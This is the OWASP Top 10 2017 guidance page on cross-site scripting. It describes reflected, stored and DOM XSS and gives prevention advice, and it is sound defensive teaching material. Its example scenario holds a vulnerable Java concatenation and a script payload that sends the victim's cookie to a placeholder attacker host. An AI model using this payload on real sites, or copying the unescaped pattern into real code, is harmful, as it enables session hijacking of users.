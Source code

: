 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl \| Exploitability 3 | Prevalence 3 \| Detectability 3 | Technical 2 \| Business |
| Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks. | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

* **Reflected XSS**: Your app or API includes unvalidated and  unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim's browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
* **Stored XSS**: Your app or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
* **DOM XSS**: JavaScript frameworks, single page apps, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, your application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client side attacks.

## How To Prevent

Preventing XSS requires separation of untrusted data from active browser content.

* Use safer frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS, or leverage framework XSS protections. These frameworks typically cover the most common XSS scenario, but learn the limitations of each framework's XSS protection and handle the use cases which are not covered.
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.
* Applying context sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense in depth mitigating control against XSS, assuming no other vulnerabilities exist that would allow placing malicious code via local file include such as path traversal overwrites, or vulnerable libraries in permitted sources, such as content delivery network or local libraries. 

## Example Attack Scenario

**Scenario 1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the 'CC' parameter in the browser to:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

This attack causes the victim's session ID to be sent to the attacker's website, allowing the attacker to hijack the user's current session.

Note that attackers can use XSS to defeat any automated CSRF defense the application might employ. 

## References

### OWASP

* [OWASP Proactive Controls: #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
